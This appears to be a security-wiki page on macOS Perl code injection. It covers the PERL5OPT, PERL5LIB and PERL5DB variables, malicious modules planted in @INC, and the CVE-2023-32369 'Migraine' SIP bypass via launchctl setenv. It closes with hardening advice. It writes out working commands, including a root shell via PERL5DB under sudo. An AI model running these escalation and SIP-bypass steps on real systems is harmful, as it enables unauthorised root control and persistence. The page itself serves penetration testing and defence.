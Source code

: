 # macOS Perl Applications Injection


## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable **`PERL5OPT`** it's possible to make **Perl** execute arbitrary commands when the interpreter starts (even **before** the first line of the target script is parsed).  
For example, create this script:

```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
```
Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
```
Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
```
And then use the env variables so the module is located and loaded automatically:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
```
### Other interesting environment variables

* **`PERL5DB`** – when the interpreter is started with the **`-d`** (debugger) flag, the content of `PERL5DB` is executed as Perl code *inside* the debugger context.  
  If you can influence both the environment **and** the command-line flags of a privileged Perl process you can do something like:
  
  ```bash
  export PERL5DB='system("/bin/zsh")'
  sudo perl -d /usr/bin/some_admin_script.pl   # will drop a shell before executing the script
  ```

* **`PERL5SHELL`** – on Windows this variable controls which shell executable Perl will use when it needs to spawn a shell. It is mentioned here only for completeness, as it is not relevant on macOS.

Although `PERL5DB` requires the `-d` switch, it is common to find maintenance or installer scripts that are executed as *root* with this flag enabled for verbose troubleshooting, making the variable a valid escalation vector.

## Via dependencies (@INC abuse)

It is possible to list the include path that Perl will search (**`@INC`**) running:

```bash
perl -e 'print join("\n", @INC)'
```
```
Typical output on macOS 13/14 looks like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
```
Some of the returned folders don’t even exist, however **`/Library/Perl/5.30`** does exist, is *not* protected by SIP and is *before* the SIP-protected folders. Therefore, if you can write as *root* you may drop a malicious module (e.g. `File/Basename.pm`) that will be *preferentially* loaded by any privileged script importing that module.

> [!WARNING]
> You still need **root** to write inside `/Library/Perl` and macOS will show a **TCC** prompt asking for *Full Disk Access* for the process performing the write operation.

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` containing attacker-controlled code.

## SIP bypass via Migration Assistant (CVE-2023-32369 “Migraine”)

In May 2023 Microsoft disclosed **CVE-2023-32369**, nick-named **Migraine**, a post-exploitation technique that allows a *root* attacker to completely **bypass System Integrity Protection (SIP)**.  
The vulnerable component is **`systemmigrationd`**, a daemon entitled with **`com.apple.rootless.install.heritable`**. Any child process spawned by this daemon inherits the entitlement and therefore runs **outside** SIP restrictions.

Among the children identified by the researchers is the Apple-signed interpreter:

```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
```
Because Perl honors `PERL5OPT` (and Bash honors `BASH_ENV`), poisoning the daemon’s *environment* is enough to gain arbitrary execution in a SIP-less context:

```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
```
When `migrateLocalKDC` runs, `/usr/bin/perl` starts with the malicious `PERL5OPT` and executes `/private/tmp/migraine.sh` *before SIP is re-enabled*. From that script you can, for instance, copy a payload inside **`/System/Library/LaunchDaemons`** or assign the `com.apple.rootless` extended attribute to make a file **undeletable**.

Apple fixed the issue in macOS **Ventura 13.4**, **Monterey 12.6.6** and **Big Sur 11.7.7**, but older or un-patched systems remain exploitable.

## Hardening recommendations

1. **Clear dangerous variables** – privileged launchdaemons or cron jobs should start with a pristine environment (`launchctl unsetenv PERL5OPT`, `env -i`, etc.).
2. **Avoid running interpreters as root** unless strictly necessary. Use compiled binaries or drop privileges early.
3. **Vendor scripts with `-T` (taint mode)** so that Perl ignores `PERL5OPT` and other unsafe switches when taint checking is enabled.
4. **Keep macOS up to date** – “Migraine” is fully patched in current releases.

## References

- Microsoft Security Blog – “New macOS vulnerability, Migraine, could bypass System Integrity Protection” (CVE-2023-32369), May 30 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) research”, May 2025.

